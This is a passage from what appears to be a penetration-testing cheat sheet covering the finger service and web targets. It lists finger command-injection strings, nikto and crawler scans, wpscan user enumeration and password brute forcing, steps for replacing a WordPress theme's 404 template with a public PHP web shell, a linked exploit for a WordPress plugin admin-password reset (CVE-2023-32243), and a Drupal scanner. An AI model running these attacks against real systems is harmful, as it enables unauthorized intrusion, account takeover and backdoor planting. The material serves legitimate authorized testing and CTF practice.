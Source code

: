 ### Command execution

```
finger "|/bin/id@<IP>"
finger "|/bin/ls -a /<IP>"
```

---

## HTTP - HTTPS - 80 - 443

### Automatic scanners

```
nikto -h <URL>
python crawleet.py -u <URL> -b -d 3 -e jpg,png,css -f -m -s -x php,txt -y --threads 20
```

### Wordpress

```
# Scan
wpscan --rua -e --url <URL>

# Brute force user(s)
wpscan --rua --url <URL> -P <PASSWORDS_LIST> -U "<USER>,<USER>"
```

#### Wordpress panel RCE

```
Modifying a php from the theme used (admin credentials needed)

Appearance -> Editor -> 404 Template (at the right)
Change the content for a php shell
https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
http://<IP>/wp-content/themes/twentytwelve/404.php
```

#### Wordpress Priv Esc - Elementor lite

```
https://github.com/RandomRobbieBF/CVE-2023-32243
Able to reset admin password of site via vuln.  verify version at

/wp-content/plugins/essential-addons-for-elementor-lite/readme.txt

```

### Drupal

```
droopescan scan -u <URL>
```
